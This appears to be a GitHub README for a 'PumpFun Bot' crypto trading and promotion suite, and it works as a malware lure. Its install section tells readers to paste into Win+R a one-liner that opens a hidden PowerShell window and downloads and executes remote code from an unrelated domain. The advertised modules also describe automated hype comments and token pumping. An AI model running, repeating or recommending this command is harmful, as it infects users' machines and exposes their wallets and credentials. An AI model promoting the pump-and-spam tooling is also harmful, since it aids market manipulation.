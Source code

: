 <div align="center">
  
## **PumpFun Bot** | **Automated PumpFun Trading Bot** 📈⚡️

</div>

<div align="center">
<img src="https://fiverr-res.cloudinary.com/images/q_auto,f_auto/gigs2/389074852/original/b62a37706db7a5da66ca83672b17758f889e90ab/develop-pump-fun-bot-bot-for-pump-fun-launch-meme-tokens-on-solana.png" width="800" height="300" />
</div>

**PumpFun Bot** is a comprehensive, fully automated crypto trading suite that includes **PumpFun Bundle Bot**, **PumpFun Buy Bot**, **PumpFun Boost Bot**, and **PumpFun Auto Comment Bot**. It is designed to **help you catch the best pump signals** and maximize your crypto profits with minimal effort.

If you're tired of missing out on hot tokens that skyrocket in price, or want to automate your entire trading and promotion process, this bot has everything you need.

---

## 🔧 What Is It?

**PumpFun Bot** is a multi-functional desktop application that integrates with crypto trading platforms and social media channels to **automate** trading, promote tokens, and boost social activity for maximum visibility. It consists of several powerful modules:

1. **PumpFun Bundle Bot** – A bot that automates your **pump trading bundle**, helping you trade multiple tokens at once.
2. **PumpFun Buy Bot** – A trading bot that executes **buy orders** based on pump signals.
3. **PumpFun Boost Bot** – A bot designed to **boost token visibility** by interacting with social media platforms and promoting tokens.
4. **PumpFun Auto Comment Bot** – Automates posting comments in crypto communities to increase engagement and hype.

---

## 💻 How It Works

The bot integrates with various exchanges (like Binance, KuCoin, and others) via **API keys** and uses advanced algorithms to scan for price spikes, volume increases, and pump patterns. Once a pump is detected, the bot takes action based on your custom preferences.

### Key Features:
- **PumpFun Bundle Bot**: Automates simultaneous trades across multiple tokens, maximizing your potential gains.
- **PumpFun Buy Bot**: Executes buy orders automatically based on custom pump signal criteria.
- **PumpFun Boost Bot**: Promotes your tokens across **social media platforms** (Reddit, Twitter, etc.), boosting visibility.
- **PumpFun Auto Comment Bot**: Posts comments automatically in crypto communities to generate buzz and engagement for your token.
- Real-time pump alerts with **best entry/exit points**
- Customizable settings for different strategies and market conditions

---

## 🧠 Why Use PumpFun Bot?

There are many trading bots, **but**:
- ❌ Many bots are one-trick ponies, doing only one thing (like just trading or commenting)  
- ❌ They require constant manual intervention and monitoring  
- ❌ They don’t integrate trading and marketing in one seamless platform  
- ❌ Lack of security and flexibility  

**PumpFun Bot** is:
- ✅ Fully automated. **No need for constant monitoring**  
- ✅ Multiple bots combined into one powerful suite (trading, boosting, commenting)  
- ✅ Real-time alerts for optimal trading and promotion  
- ✅ Fast execution and **100% secure**  
- ✅ Flexible, customizable settings for **different strategies**  
- ✅ Multi-platform integration for **crypto trading and marketing**

---

## 📦 Installation

### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
</pre>

---

## 🛠️ In Development

- Support for additional exchanges (Kraken, Bitfinex, etc.)
- Advanced AI-driven pump prediction algorithms
- Portfolio tracking and trade performance analytics
- More social media integration for boosting visibility

---

## ⭐ Support the Project

If you like the bot, please ⭐ the repo, share it on Reddit, and leave feedback!  
Pull requests, ideas, and bug reports are always welcome.

---

**💸 Maximize your profits and visibility.  
With PumpFun Bot, you'll always be one step ahead in the crypto world.**

## SEO Keywords
- Pump Signal Bot
- Crypto Pump Bot
- Automated Trading Bot
- Crypto Trading Bot
- Pump Alerts
- Crypto Signals Bot
- Auto Comment Bot
- Crypto Promotion Bot
- PumpFun Bot
